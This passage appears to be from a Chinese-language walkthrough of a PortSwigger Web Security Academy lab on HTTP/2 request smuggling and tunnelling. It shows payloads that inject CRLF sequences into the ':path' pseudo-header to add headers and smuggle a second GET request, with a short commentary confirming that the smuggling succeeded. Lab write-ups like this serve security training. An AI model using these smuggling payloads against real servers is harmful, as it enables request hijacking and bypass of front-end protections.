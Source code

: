 ```c
#Name
:path
#Value
/?cachebuster=1 HTTP/1.1\r\n
Foo: bar
```

![img](assets/1706773318-2089cb2990331aedd38f97b0181e227d.png)

Step 3：从上面可以看到响应正常，说明我们可以借助:path进行走私请求，随后改变请求方法为HAED，试一下进行隧道传输，从响应正文中可以看到包含了：HTTP/1.1 200 OK，说明我们的走私成功

```c
/?cachebuster=1 HTTP/1.1\r\n
Host:0a8f00d80344b40981c0e8ab00300007.web-security-academy.net\r\n
\r\n
GET /post?postId=1 HTTP/1.1\r\n
Foo: bar
```

![img](assets/1706773318-b47dc83abce7a3662486b166074ad2a0.png)
